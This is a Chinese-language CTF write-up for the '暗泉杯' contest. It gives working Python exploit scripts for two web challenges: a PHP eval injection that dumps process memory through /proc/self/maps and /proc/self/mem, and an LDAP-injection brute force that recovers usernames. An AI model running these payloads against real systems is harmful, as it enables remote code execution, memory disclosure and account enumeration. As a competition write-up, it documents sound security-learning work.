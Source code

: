 # 暗泉杯



## hideandseek

pwn👴带飞的，全程送茶。

读内存文件，根据/proc/self/maps看内存段，对应/proc/self/mem内容

其实核心思路比较简单，就是maps下面会存内存的所有地址

然后用该思路去把mem下的文件全部读出来就好了

```python
#-*- coding:utf-8 -*-
import requests
payload = '''?eval=$maps = fopen("/proc/self/maps", 'r');
$mem = fopen("/proc/self/mem", 'r', 0);
$a = 0;
while (!feof($maps)){
    $inf = fgets($maps);
    $addr = explode(" ",$inf)[0];
    $start = hexdec(explode("-",$addr)[0]);
    $end = hexdec(explode("-",$addr)[1]);if($a<474){while ($end>$start){fseek($mem,$start);$nr = fgets($mem, 0x1000);echo $nr;$start=$start%2B0x1000;}}$a=$a%2B1;
}'''.replace("\n","")
#print(payload)
url = "http://ced01bad-3d00-4bca-8185-eb99e82285ed.nssctf.neusoft.edu.cn/"
url = url + payload
res = requests.get(url).text
print(res.encode('utf-8'))
fp = open("data.txt",'w')
fp.write(res.encode('utf-8'))
fp.close()
```

这里遇见的一个问题是太大了，分段读取即可

![image-20211206125128181](https://gitee.com/yyssllz/pic/raw/master/image-20211206125128181.png)



为了解决这个问题可以在过大的时候分段读取



## easy_inject

真是一个，，绝绝子题目

思路就是找很多用户名

```python
import  string,requests,sys
url = "http://47.106.172.144:2333/"
words = string.digits +string.ascii_lowercase + "@_.-"
name = "ldaptest@test.com)(mail=ldapli"
for i in range(40):
    for i in words:
        payload = name + i +"*"
        params = {"user":payload,"pass":"123"}
        # print(payload)
        res = requests.get(url=url,params=params)
        if "用户不唯一" in res.text:
            print(payload)
            # print(res.text)
            name += i
```